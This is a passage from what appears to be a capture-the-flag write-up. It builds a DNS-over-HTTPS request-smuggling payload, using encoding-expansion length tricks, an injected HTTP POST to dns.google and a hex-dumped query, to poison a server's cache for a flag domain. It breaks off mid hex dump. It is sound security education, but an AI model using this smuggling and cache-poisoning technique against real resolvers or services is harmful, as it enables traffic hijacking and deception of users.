 The length of this whole thing is 12+1+90+1+79+1+169+5 = 358 characters.  
When encoded, the `\x80`s are expanded, so we get an extra of 90+79=169 bytes.  
That means that the last 169 bytes are being sent as an extra query to the server.  
Ah, but we have a problem... We actually haven't considered 2 things:  
1. The footer. Since the server code is adding a footer of 5 bytes we need to include it in our calculation
   * Well, we can actually make a small trick - remove the footer from our payload and use the one provided by the code
2. The length of the payload is 169 and the character chr(169) exists in the data, so, when encoded, it will be expanded to `\xc2\xa9`
   * Not a problem, we just need to have one byte less of "padding"

Let's review - first we removed 5 bytes from the payload, so the payload is now 164 bytes. We need to remove 5 padding bytes.  
But, we also need to add 5 padding bytes to include the footer as the end of our own request. These 2 cancel each other.    
Finally, we need to remove one byte to account for the expansion of the payload length byte.  
That means we just remove one pair of `b'\xc2\x80'` bytes from the padding. That makes the 2nd chunk 158-2 = 156 bytes.    
The new payload (with the footer removed will be):
```
POST /dns-query HTTP/1.1
Host: dns.google
Accept: application/dns-message
Content-Type: application/dns-message
Content-Length: 31

00000000: 00 00 01 00 00 01 00 00  00 00 00 00 02 6D 79 06  .............my.
00000010: 73 65 72 76 65 72 03 63  6F 6D                    server.com
```
With a length of 159 bytes. The full query:  
```
[header] [180] [b'\xc2\x80' * 90] [156] [b'\xc2\x80' * 78] [164] [payload - 164 bytes] [footer]
```
The prepared query after decoding:
```
[header] [90] ['\x80' * 90] [78] ['\x80' * 78] [164] [payload] [footer]
   12     1        90        1         78        1      164       5
```
We get an extra of 90+78+1 = 169 bytes, so the last 169 bytes are being sent as an extra query - that's perfect for our 164+5=169 byte payload and footer.  

The only thing that we're missing is the query to the flag domain, so the cache is properly poisoned.  
We need to invoke it right after we send the first query to Google, so the answer to the injected HTTP request will be read as an answer to the flag domain query.  
We only need to make our request specify that we have 2 questions and append the flag domain query to the end.  
Bytes 4+5 in the header are the number of questions in the query, so all we need to do is to change them to `00 02` and append the question for the flag domain - it can be built with `build_dns_query(['ebd771980a2f12d1', 'insomnihack', 'flag'])`.  

The full payload:  
```
00000000: 00 00 01 00 00 02 00 00  00 00 00 00 B4 C2 80 C2  ................
00000010: 80 C2 80 C2 80 C2 80 C2  80 C2 80 C2 80 C2 80 C2  ................
00000020: 80 C2 80 C2 80 C2 80 C2  80 C2 80 C2 80 C2 80 C2  ................
00000030: 80 C2 80 C2 80 C2 80 C2  80 C2 80 C2 80 C2 80 C2  ................
00000040: 80 C2 80 C2 80 C2 80 C2  80 C2 80 C2 80 C2 80 C2  ................
00000050: 80 C2 80 C2 80 C2 80 C2  80 C2 80 C2 80 C2 80 C2  ................
00000060: 80 C2 80 C2 80 C2 80 C2  80 C2 80 C2 80 C2 80 C2  ................
00000070: 80 C2 80 C2 80 C2 80 C2  80 C2 80 C2 80 C2 80 C2  ................
00000080: 80 C2 80 C2 80 C2 80 C2  80 C2 80 C2 80 C2 80 C2  ................
00000090: 80 C2 80 C2 80 C2 80 C2  80 C2 80 C2 80 C2 80 C2  ................
000000A0: 80 C2 80 C2 80 C2 80 C2  80 C2 80 C2 80 C2 80 C2  ................
000000B0: 80 C2 80 C2 80 C2 80 C2  80 C2 80 C2 80 C2 80 C2  ................
```